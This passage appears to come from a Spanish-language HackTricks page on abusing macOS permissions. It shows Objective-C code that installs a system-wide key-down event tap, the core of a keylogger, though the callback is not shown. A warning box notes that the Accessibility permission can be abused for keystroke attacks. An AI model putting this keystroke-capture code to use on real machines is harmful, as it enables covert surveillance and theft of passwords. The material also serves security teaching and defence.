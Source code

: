 ```objectivec

int main() {
@autoreleasepool {
CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

if (!eventTap) {
NSLog(@"Failed to create event tap");
exit(1);
}

CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
CGEventTapEnable(eventTap, true);
CFRunLoopRun();
}
return 0;
}
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
**La accesibilidad es un permiso muy poderoso**, podrías abusar de él de otras maneras, por ejemplo, podrías realizar el **ataque de pulsaciones de teclas** solo con él sin necesidad de llamar a System Events.
{% endhint %}

<details><summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
